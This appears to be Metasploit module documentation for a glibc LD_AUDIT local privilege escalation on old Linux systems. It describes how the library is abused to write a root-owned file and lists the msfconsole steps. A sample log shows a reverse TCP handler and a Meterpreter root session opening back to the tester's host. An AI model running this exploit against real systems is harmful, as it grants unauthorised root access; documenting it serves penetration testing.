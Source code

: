 ## Description

  This module attempts to gain root privileges on Linux systems by abusing a vulnerability in the GNU C Library (glibc) dynamic linker to load arbitrary shared objects.


## Vulnerable Application

  glibc `ld.so` in versions before 2.11.3, and 2.12.x before 2.12.2 does not properly restrict use of the `LD_AUDIT` environment variable when loading setuid executables. This allows loading arbitrary shared objects from the trusted library search path with the privileges of the suid user.

  This module uses `LD_AUDIT` to load the `libpcprofile.so` shared object, distributed with some versions of glibc, and leverages arbitrary file creation functionality in the library constructor to write a root-owned world-writable file to a system trusted search path (usually `/lib`). The file is then overwritten with a shared object then loaded with `LD_AUDIT` resulting in arbitrary code execution.

  This module has been tested successfully on:

  * glibc version 2.11.1 on Ubuntu 10.04 (x86_64)
  * glibc version 2.7 on Debian 5.0.4 (i386)

  RHEL 5 is reportedly affected, but untested.

  Some glibc distributions do not contain the `libpcprofile.so` library required for successful exploitation.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc 
  msf exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set session 1
session => 1
  msf exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x64
  [*] Writing '/tmp/.GQh1C8euY' (1913 bytes) ...
  [*] Writing '/tmp/.3l76zsoHT' (246 bytes) ...
  [*] Writing '/tmp/.WSuOVyo' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.149:45721) at 2018-01-27 23:59:36 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

